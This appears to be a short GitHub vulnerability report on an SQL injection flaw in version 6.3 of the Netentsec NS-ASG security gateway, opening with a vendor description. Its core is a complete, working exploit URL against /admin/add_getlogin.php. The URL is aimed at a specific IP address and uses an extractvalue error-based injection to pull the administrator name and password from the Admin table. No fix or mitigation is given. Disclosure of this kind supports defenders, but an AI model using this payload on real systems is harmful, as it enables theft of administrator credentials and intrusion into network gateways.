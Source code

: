 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /admin/add_getlogin.php


https://1.85.53.53/admin/add_getlogin.php?SingleLoginId=1%20%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))%20%23


<img width="713" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/b7c349eb-b405-4456-ba6c-eb47f073c93e">
